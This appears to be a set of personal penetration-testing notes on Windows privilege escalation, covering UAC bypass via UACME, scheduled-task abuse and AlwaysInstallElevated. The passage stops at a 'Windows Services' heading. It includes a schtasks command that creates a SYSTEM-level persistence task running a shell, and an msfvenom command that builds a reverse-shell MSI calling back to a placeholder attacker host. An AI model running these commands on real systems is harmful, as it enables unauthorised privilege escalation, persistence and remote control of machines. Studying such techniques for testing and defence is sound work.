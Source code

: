 
## UAC

If you are in a privileged group but your session token is of medium mandatory level (without these privileges) then we need to bypass UAC.

To check what level UAC is at, we can do

```
C:\> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
C:\> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

and compare against the MS documentation https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/settings-and-configuration

We can use this GitHub repo, UACME, to review which method we should use to bypass UAC as per our OS version https://github.com/hfiref0x/UACME (need to click on "Keys (click to expand/collapse)").


## Scheduled Tasks

Windows equivalent of cron jobs. List scheduled tasks in cmd using `schtasks` without any options:
- `schtasks /query /fo list /v | findstr TaskName` - view all tasks
- `schtasks /query /tn sometask /fo list /v` - view specific info about task with task name `sometask` (`/tn sometask`) in list form (`/fo list`) in _detail_ detail (`/v`).
- `Get-ScheduledTask | select *`
- `Get-ScheduledTask | Select-Object TaskName,URI,@{Name="User";Expression={$_.Principal.UserId}}` - find what users tasks run as

If a task script is overwritable by our current privileges, we can execute scripts as whoever the _Run As User_ property is. Privilege escalation :0! To check privileges, use `icacls C:\<vuln_schtasks_script_path>`.

We can create our own scheduled tasks for persistence as SYSTEM: `schtasks /create /sc minute /mo 1 /tn "SYSTEMSHELL" /tr "C:\path\to\shell.exe" /ru "SYSTEM" /f`


## AlwaysInstallElevated

Windows installer files (.msi) run with privilege level of user that starts it, **but can sometimes be configured to run with higher privilege from any user account**.

For this to be possible, two registry values are required:

```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer # check HKEY_CURRENT_USER
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer # check HKEY_LOCAL_MACHINE
```

If true, write a malicious .msi script: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o evil.msi` and then execute.


## Windows Services
